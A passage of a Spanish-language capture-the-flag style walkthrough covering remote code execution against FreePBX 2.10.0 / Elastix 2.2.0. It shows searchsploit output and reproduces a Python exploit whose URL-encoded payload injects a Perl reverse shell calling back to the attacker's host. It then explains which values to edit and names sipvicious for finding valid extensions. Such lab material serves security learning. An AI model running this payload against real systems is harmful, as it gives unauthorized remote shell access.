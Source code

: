 ## FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution [Path #5]

Como sabemos que FreePBX está funcionando en este servidor, podemos probar este POC:

```shell
❯ searchsploit elastix freepbx
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                   | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Mirando el exploit podemos ver un payload:

```python
import urllib
import ssl
rhost="10.10.10.7" # add the target IP
lhost="10.10.16.3" # add your IP
lport=443 # change the port
extension="1000" # change the extension number with a valid number

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

Tenemos que modificar lo siguiente:
- Cambiar la IP del Host Remoto por la IP de destino
- Cambiar la IP del Host Local por la nuestra.
- Cambiar el puerto de escucha (¡si quieres!)
- Cambiar el número de extensión por un número válido


Podemos utilizar el script python de sipvicious svwar para encontrar números de extensiones válidos:
![sipvicious github](https://github.com/EnableSecurity/sipvicious/)
